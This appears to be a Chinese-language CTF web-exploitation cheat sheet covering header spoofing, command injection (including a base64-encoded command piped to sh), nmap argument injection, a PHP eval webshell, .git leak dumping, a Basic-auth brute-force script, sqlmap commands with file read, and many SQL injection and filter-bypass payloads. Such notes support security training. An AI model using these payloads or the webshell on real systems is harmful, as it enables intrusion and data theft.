








# Web
- 不能全信前端的代码提示
- 思路应该灵活，避免深陷一点（比如网站泄露 .git 目录，可能只是一个陷阱，真正的突破口与此毫无关系。或者，即使扫描出 flag.php，也可能只是陷井）

## HTTP 和网页

- HTTP 会将 URL 和 Headers 自动解 urldecode，但是不会解 POST 方法内的 urldecode (其实不一定，urldecode 是由编程语言负责的，具体看怎么设定的)
- HTTP 的 get 方法在传参时不要画蛇添足加""（双引号），http 的参数本身就会被识别为字符串
- HTTP GET 方法的 `#` 必须被编码为 %23 再发送，因为 `#` 这部分通常由浏览器处理，不会发送到服务器

### httpie

> Chrome 无法显示源码时，可直接用工具(如 httpie)请求接口

#### HTTP (GET / POST) 工具

```bash
# GET
http GET http:x?name=felord&age=18

# POST
http POST http:x name=felord age=18
```

### 前端伪造

#### 伪造浏览器

遇到过一道题，让你用 WLLM 浏览器访问，此时只要设置

```
User-Agent=WLLM
```

即可

#### 伪造 ip 

```
X-Forwarded-For: 127.0.0.1
```

有时候网站要求链接来源于 HomePage，可以再加一个下面的内容：

```
Referer: 127.0.0.1
```

有时候网站多刷新几次会有不同的发现

注意观察网站刷新的原因是否由 Cookie 等字段影响的？

### 网页

- 当 Web 页面的地址更换 (如 /index.php 变为 /a.php)，相应的 get / post 请求应该即使切换到 /a.php
- 遇到网页时首先都应该观察**源码及 JS 文件**中有没有隐藏信息
- 一个复杂的网页，页面中很可能隐藏了重要外链
- 见过在一个很长的 js 文件中藏了一个注释，例如 /f@k3f1ag.php
- 看到类似 `(+[![]]+[])[+[]]+` 的密文要联想到 jsfuck，可以直接在控制台执行
- 注意观察前端填写的 `payload` 和抓包结果是否一致，有时候是前端限制，必须通过接口发送数据
- 在一个大 HTML 中找 flag 时，如果规范匹配的方法行不通，往往可以尝试匹配类似 flag 的字符串【如 `f|l|a|g xxx` 方法见根目录的 `README.md`】

#### 网页链接提取

自动提取网页中包含的链接，并排除黑名单后缀。（用于发现复杂网页包含的重要外链信息）

```javascript
(function() {
    var allElements = Array.from(document.querySelectorAll('*'));
    var allUrls = [];
  	// 链接黑名单后缀
    var staticFileExtensions = ['jpg', 'png', 'gif', 'css', 'js'];

    allElements.forEach(function(el) {
        if (el.hasAttribute('href')) {
            allUrls.push(el.getAttribute('href'));
        }
        if (el.hasAttribute('src')) {
            allUrls.push(el.getAttribute('src'));
        }
    });

    var nonStaticUrls = allUrls.filter(function(url) {
        var extension = url.split('.').pop();
        return staticFileExtensions.indexOf(extension) === -1;
    });

    var uniqueNonStaticUrls = [...new Set(nonStaticUrls)];

    console.log(uniqueNonStaticUrls);
})();
```

#### JavaScript

##### JS 函数绕过

如果函数在对象中，可以通过修改属性的方式动态修改对象方法来实现绕过。如 `car.a = function () {}`

##### JSON 要用双引号

你需要确保遵循正确的 JSON 格式，其中包括使用双引号而不是单引号。(不要当成 Python 的字典)

## Linux

- Linux 命令绕过，可以用 | 或 & 或 ;

  在 Linux 中，`|`、`&` 和 `;` 都是常用的命令行符号，每个符号都有自己的特定用途。

  1. `|` (管道)：这个符号用于将一个命令的输出作为另一个命令的输入。例如，`command1 | command2`，这里 command1 的输出会作为 command2 的输入。

  2. `&`：这个符号用于在后台运行命令。如果你在命令后加上 `&`，那么这个命令就会在后台运行，你可以继续在命令行中输入和执行其他命令。例如，`command &`，这里 command 会在后台运行。

  3. `;`：这个符号用于在同一行中运行多个命令。命令在 `;` 后面的命令会在前一个命令执行完毕后执行，无论前一个命令是否成功。例如，`command1 ; command2`，这里 command1 会首先执行，无论其是否成功，command2 都会接着执行。

  这就是 Linux 中 `|`、`&` 和 `;` 的基本区别。
  
- `A;B`: 无论A执行成功与否都会执行B

  `A & B`: A后台执行，A、B同时执行
  `A && B`: A执行成功后才能执行B

  `A | B`: A执行的结果作为B命令的参数，AB均会执行
  `A || B`: A执行失败后执行B

### ping 注入

- 如果普通的方法无法绕过正则过滤，则考虑使用 [base 64 绕过复杂的正则表达式](####base 64 绕过复杂的正则表达式)

#### 普通方法

注入

```bash
ping -c 4 127.0.0.1 | ls
```

& 注入
```bash
ping -c 4 127.0.0.1&ls
```

使用 base64 解码
```bash
ping -c 4 127.0.0.1&cat 7672134566268.php| base64
```

### nmap 注入

```bash
-iL /flag -oN flag.txt
# 执行payload，将根目录下的flag文件内容作为扫描目标，并将扫描结果重定向到flag.txt文件中
```

### Vim 恢复 .swp 文件

```bah
vim -r <filename>
```

Vim 将会打开一个恢复会话，显示最近编辑的内容。你可以检查恢复的内容，并使用 `:w` 命令保存到一个新文件中。

### 正则表达式工具

通过正则表达式来生成文本

https://onlinetexttools.com/generate-text-from-regex

正则表达式菜鸟工具

https://c.runoob.com/front-end/854/

### Linux 绕过正则表达式

#### / 被过滤

下面这条命令可以打印当前目录及子目录的所有文件内容

```bash
cat `find`
```

#### base 64 绕过复杂的正则表达式

```bash
http://xxx/?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
# $IFS$9 是空格绕过
# 意思是 cat flag.php
```

解释：$IFS$9 是空格绕过。"Y2F0IGZsYWcucGhw" 是 "cat flag.php" 的 Base64 编码。"cat flag.php" 是一个命令，它会显示 "flag.php" 文件的内容。

所以，整个命令 `echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh` 的含义是：

1. 使用 `echo` 命令输出 "Y2F0IGZsYWcucGhw" 这个 Base64 编码的字符串。

2. 使用 `base64 -d` 命令解码这个字符串，得到 "cat flag.php"。

3. 使用 `sh` 命令执行 "cat flag.php"，即显示 "flag.php" 文件的内容。

这个命令的目的是以一种较隐蔽的方式显示 "flag.php" 文件的内容。

上面例子的通用模版：

```bash
echo 【要执行命令的base64编码】|base64 -d|sh
```

### Linux 基本命令

#### 查看当前登录用户名

```bash
whoami
```

#### 查询是目录还是文件

```bash
ls -l 目录名 或 文件名
```

#### 查询所有文件名包含 flag 的路径，并忽视错误信息

```bash
find / -type f 2>/dev/null | grep -Ei 'flag'
```

优化版

该命令可以查询类似 `ffffllllaaaagggg` 的文件，最多不超过5个字符重复

```bash
find / -type f 2>/dev/null | grep -Ei 'f{1,5}l{1,5}a{1,5}g{1,5}'
```

## 端口扫描

- PHP 中直接使用 `dict` 协议扫描端口，如 `?url=dict://127.0.0.1:80` ，如果响应 404，说明该端口开启，再访问 `?url=http://127.0.0.1` 即可【该方法可以利用 `127.0.0.1` 的权限扫描端口，因为端口未必是只对外界开放的，有的端口在 `127.0.0.1` 中，CTF 考题一般只能这样考】

### nmap

扫描几个端口

```bash
nmap -p 80,443 <target>
```

扫描一系列端口

```bash
nmap -p 1-1000 <target>
```

扫描所有端口

```bash
nmap -p- <target>
```

## 文件
- 看到 static 就联想到 Nginx 的目录穿越

### 目录扫描

#### dirsearch
Web 目录扫描工具

参数：

`--exclude-sizes 20KB,21KB` : 排除 20 到 21KB 的响应

```bash
# 用法：
python3 dirsearch.py -t 100 -u https://target
python3 dirsearch.py -t 100 --include-status 200-399 -u http://xxx
```

### 文件注入

#### 中国蚁剑
```
PHP
1.编辑 PHP 文件内容:<?php eval(@$_POST['a']); ?>
2.将该文件上传到服务器(连接地址就是该文件路径，密码是上面输入的'a')
3.使用中国蚁剑连接该文件即可
```

### Git

#### 手动抓取
- 实测抓取的记录比 scrabble 完整。还是优先使用 scrabble，scrabble 用不了时再手动抓取

```bash
wget -r http://xxx/.git
```
当 git log 找不到记录时，继续进行下面步骤

查看过去误操作改变的历史记录
```bash
git reflog
```
一个版本一个版本查看变动
```bash
git show xxx
```

#### GitHack
- 通过网站中泄漏的 .git 文件克隆出项目目录
- 需要 Python 2 环境

#### scrabble
> 查询网站泄漏的 .git 文件，并将本目录还原为网站目录
使用方法
```bash
git clone https://github.com/denny0223/scrabble.git
./scrabble http://example.com/
```
> 在 M1 Mac 中，/Users/Cyberbolt/Library/CloudStorage/OneDrive-个人/编程/CTF/工具/Git工具/scrabble 保留了副本

### Nginx

#### 目录穿越
穿越到上级目录 http://xxx/img../

 #### 富文本编辑器

#### 暴露服务端文件

在富文本编辑器中点击上传云文件或云图片时，暴露出了服务端目录。

## 密码爆破

### 弹窗式密码

这种密码往往通过 HTTP 的 Authorization 请求头发送，示例如下

```
Authorization: Basic YWRtaW46MDAwMA==
```

其中，将 `YWRtaW46MDAwMA==` 解 base64 可以得到 `admin:0000`，示例爆破代码如下

```python
import base64

import httpx


def main():
    with open('最新网站后台密码破解字典.txt', 'r') as f:
        passwords = f.read().splitlines()
    
    for password in passwords:
        headers = {
            'Authorization': 'Basic ' + base64.b64encode(('admin:' + password).encode()).decode()
        }
        print(headers)
        r = httpx.get('http://ed2d415d-caef-4a1a-b425-bc0ec7323fa3.challenge.ctf.show/', headers=headers)
        print(r.text)


if __name__ == '__main__':
    main()
```

## SQL 攻击

- 若系统不允许注册'admin'。可以在注册时加一个空格，如'admin '，登录时仍然可以用'admin'登录。原因见 [SQL 约束攻击](#SQL-约束攻击)

### SQL 注入

#### sqlmap

参数

- `--batch`：这个参数使 sqlmap 在遇到需要用户输入的情况时，自动使用默认选项。这通常在你想要无人值守地运行 sqlmap 时使用。

##### GET
```bash
# 找到注入点，如 /?id=1
# 查数据库
python sqlmap.py --batch -u http://x.com/?id=1 --dbs
# 查 N 数据库的表名
python sqlmap.py --batch -u http://x.com/?id=1 -D N --tables
# 查 N 数据库的A 表的列名
python sqlmap.py --batch -u http://x.com/?id=1 -D N -T A --columns
# 查 N 数据库的 A 表的 B 列数据
python sqlmap.py --batch -u http://x.com/?id=1  -D N -T A -C B --dump


# 高级注入（只举例第一步，同样适用于 POST 请求）
python sqlmap.py --batch -u http://x.com/?id=1 --batch --level=3 --tamper=space2comment.py --dbs
```

##### POST
```bash
# 发送 POST 请求
python sqlmap.py -u http://x.com --data="name=a&pass=123456aaa"
# 此处的 name 和 pass 都是 POST 方法的参数
```

##### 清空缓存

```bash
rm -rf /root/.local/share/sqlmap/output/*.*.*.*
```

##### 服务端文件读取

```bash
python sqlmap.py -u http://61.147.171.105:56766/join.ok.php --data="username=a&passwd=a&age=1&blog=baidu.com" --file-read "/var/www/html/flag.php"
# 重点是 --file-read 参数
```

#### 过滤绕过

##### 字符串过滤

###### 大小写绕过

waf 过滤了关键字 select，可以尝试使用 Select 等绕过

###### 双写关键字绕过

在某一些简单的waf中，将关键字select等只使用replace()函数置换为空，这时候可以使用双写关键字绕过。 例如 select 变成seleselectct，在经过waf的处理之后又变成select，达到绕过的要求

###### 十六进制绕过

mysql支持字符串采用十六进制形式。 `select * from users where username = 0x7465737431;`

##### 空格过滤绕过

###### 注释符

可以采用mysql中的多行注释符`/**/` 

```sql
select/**/username/**/from/**/userinfo;
```

###### 括号()

```sql
select(username)from(userinfo);
```

###### tab(%09)

```sql
select%09username%09from%09userinfo;
```

###### 回车(url编码中的%0a)

```sql
select%0ausername%0afrom%0auserinfo;
```

##### 等号过滤

###### like关键字

不加通配符的 `like` 执行的效果和 `=` 一致，所以可以用来绕过

```sql
select username from userinfo where password like '123456';
```

###### regexp关键字

MySQL中使用 REGEXP 操作符来进行正则表达式匹配

```sql
select username from userinfo where password regexp'^123456$';
```

##### 引号过滤

例题

```sql
SELECT * FROM userinfo WHERE username="" and password=""
```

参数

```
username=\&password=||1#
```

该参数还原为

```sql
SELECT * FROM userinfo WHERE username="\" and password="||1#"
```


##### 过滤函数绕过

`ascii('a')` => `ord('a')`

`sleep(3)` => `benchmark(1000000,md5(3))` (benchmark 设置得越大，延迟越大)

`substr('abc',2,1)` => `mid('abc',2,1)`

`substr('abc',2,1)` => `right(left('abc',2),1)`

`if(1=2,3,4)` => `case 1 when 2 then 3 else 4 end`

#### 万能密码表

- 有时候 sqlmap 无法使用，该方法可以登录进去

##### 通用方法

```url
http://xxx/?username=admin'or'1'='1&password=123456'or'1'='1
```

##### 绕过 PHP 的 md5()

举例

```sql
select * from 'admin' where password=md5($pass,true)
```

可使用 pass=ffifdyop 来绕过

原因：看了大佬博客，这个可以用`ffifdyop`绕过，绕过原理是：
`ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个字符串前几位刚好是 ' `or '6`
而 Mysql 刚好又会把 hex 转成 ascii 解释，因此拼接之后的形式是 `select * from 'admin' where password='' or '6xxxxx'`，等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数。

果然，我们提交之后就绕过了这个，来到了另一个页面

#### 常用注入语句(堆叠注入补充)

堆叠注入就是将语句堆叠在一起进行查询。虽然这个注入姿势很厉害，但实际遇到很少，其可能受到API或者数据库引擎，又或者权限的限制只有当调用数据库函数支持执行多条sql语句时才能够使用，例如mysqli_multi_query()函数就支持多条sql语句同时执行。

```sql
1;show databases%23
1;show tables%23
1;show columns from 'Flag'%23
```

##### 预处理

常规使用方法:

```sql
# 十六进制的原字符串是 select * from `1919810931114514`，转为十六进制后记得加 0x
1';
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;
execute execsql;
%23
```

在select被过滤的情况下，第一部分可以通过concat进行拼接，达到绕过的目的:

```sql
SeT@a=oncat('sele','ct username from userinfo');
```

##### handler

```sql
1';
handler `1919810931114514` open as `a`;
handler `a` read first;
%23
```

- 1919810931114514 是表名
- 其中的 a 为我们自己定义的名字，first 为读第一行数据，与他并列的还有 next(读取下一行)


#### 手工注入

- 因为有过滤，建议使用 `hackbar` 自带的 sql 注入语句(然后自行替换被过滤内容，建议先在网页测试下哪些语句被过滤)，需要输入两个参数，第一个是表有几列，第二个是前端显示在第几列 (需要提前自行测试)

- sqlmap默认情况下会尝试在响应中查找一些通用的错误消息或者其他的特征，以确定注入是否成功。然而，如果应用返回的错误消息或者其他的特征和sqlmap期望的不一样，那么sqlmap可能无法正确地判断注入是否成功。（其实，只要一个前后端分离的网站对响应数据进行加密，就会让 sqlmap 无法正常工作）这时可能需要用到手工注入。

- sqlmap默认情况下会寻找一些通用的数据库错误消息或者其他的特征，以确定注入是否成功。这些特征包括但不限于：

  1. **数据库错误消息**：sqlmap会尝试在响应中查找一些常见的数据库错误消息，如"MySQL syntax error"，"You have an error in your SQL syntax"（MySQL），"ORA-01756"（Oracle），"Unclosed quotation mark"（SQL Server），等等。这些错误消息通常意味着SQL语句存在语法错误，可能是因为注入的SQL片段破坏了原有的SQL语句结构。

  2. **布尔值变化**：在进行基于布尔的盲注时，sqlmap会发送两个请求，一个应该返回真，一个应该返回假，然后比较两个响应是否有差别。如果两个响应有明显的差别，那么就可能存在布尔型的SQL注入。

  3. **时间延迟**：在进行基于时间的盲注时，sqlmap会查看请求是否有明显的延迟。如果请求有明显的延迟，那么就可能存在时间型的SQL注入。

  4. **其他的特征**：除了上述的特征之外，sqlmap还会查找一些其他的特征，如特定的HTTP状态码，特定的响应头，等等。

  这些特征都是sqlmap默认情况下会查找的。然而，不同的应用可能会返回不同的错误消息或者其他的特征，因此可能需要根据应用的具体行为来配置sqlmap，让它能够正确地判断注入是否成功。

##### 绕过特殊的正则表达式

- --+ 和 -- - 都是注释符，相同的效果
- 以下只是示例，具体题目请更改表名和属性名

###### if(!preg_match('/flag|[0-9]/i', json_encode($ret))){

需要绕过 flag 和 0-9 数字

首先在 SQL 查询时替换数字，并将关键部分进行 base64 加密

```sql
-1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(username),'1','numA'),'2','numB'),'3','numC'),'4','numD'),'5','numE'),'6','numF'),'7','numG'),'8','numH'),'9','numI'),'0','numJ'),replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(password),'1','numA'),'2','numB'),'3','numC'),'4','numD'),'5','numE'),'6','numF'),'7','numG'),'8','numH'),'9','numI'),'0','numJ') from ctfshow_user4 where username='flag' --+
```

查询到结果后，进行解密

```python
import base64

# 替换这个字符串即可
flagstr = "YnumCRmcnumBhvdnumCtlMDhhMDBiNynumAhZmUwLTQxYTItOTAnumENCnumJnumAMnumBMyZGMnumEYWEzOWJnumI"
flag = flagstr.replace('numA', '1').replace('numB', '2').replace('numC', '3').replace('numD', '4').replace(
    'numE', '5').replace('numF', '6').replace('numG', '7').replace('numH', '8').replace('numI', '9').replace('numJ', '0')
print(base64.b64decode(flag))
```

###### 更复杂的正则如 if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){

题目过滤了所有 ascii 码表的 0-127 所代表的字符。(这个范围包括了所有的控制字符，标准的英文字母，数字和标点符号。)

这里的思路是不把flag直接输出的网页，而是保存在服务器的一个目录下面。

```sql
' union select 1,group_concat(password) from ctfshow_user5 into outfile '/var/www/html/1.txt'-- -
```

这段语句执行成功后可能没有任何提示（甚至提醒报错），自行访问 `/1.txt` 即可

##### 联合查询 (union)

例子：

后端语句

```sql
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

###### 确认当前表有几列

先确认表中有几列（此处是 3 列。order by 语法是从 1 开始计算的，所以 3 是第三列）。`%23` 是 `#` 的 URL 编码，这里会注释后面的语句

```sql
1' order by 3%23
```

###### 确认前端会一一对应显示几列

构造新的一行 (1, 2, 3) 并显示在前端

```sql
1' union select 1,2,3%23
```

**另外**，如果网站只显示返回数据的第一行内容，可以尝试

```sql
' union select 1,2,3%23
```

这样 union 后查询到的内容就变成了第一行

**另外**，如果网站只显示返回数据的第一行内容，且网站是整属型注入，可以尝试

```sql
0 union select 1,2,3%23
```

把 1 改成 0 后，第一行的内容就查询不到，自然就会显示第二行内容

###### 测试第三列能否显示 database()

在第3列显示当前连接的数据库名（这一句只用来测试，下一句才正式开始查询）

```sql
1' union select 1,2,database()%23
```

###### 在第二列显示数据库名

同时在第二列显示所有数据库名

- `GROUP_CONCAT` 是一个 SQL 函数，它主要在 MySQL 中使用，用于将多行数据连接成一个字符串。这个函数在处理由 GROUP BY 子句产生的分组结果时特别有用。
- `information_schema.schemata` 表来获取数据库的信息

```sql
1' union select 1,(select group_concat(schema_name) from information_schema.schemata),database()%23
```

###### 继续显示表名

上面语句显示的数据库名是 ctfshow_web，此处显示 ctfshow_web 数据库中的所有表名

```sql
1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),database()%23
```

下面展示一种绕过正则的方式注入

```sql
1'union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'test_db'%23
```

###### 继续显示属性名

上面语句显示的表名是 ctfshow_user, ctfshow_user2，此处显示 ctfshow_user2 的属性名

```sql
1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow_web' and table_name='ctfshow_user2'),database()%23
```

###### 查询表中属性对应的值

上面语句显示的属性名是 id,username,password，此处显示 password 属性的所有数据

```sql
1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user2),database()%23
```

在 ctfshow_web.ctfshow_user2 的 password 属性值中，我们发现了 flag

#### SQL 盲注

##### 基本原理

###### 布尔盲注

布尔盲注是SQL注入攻击的一种形式，它主要用于在服务器不直接显示有用错误信息的情况下，获取数据库的信息。

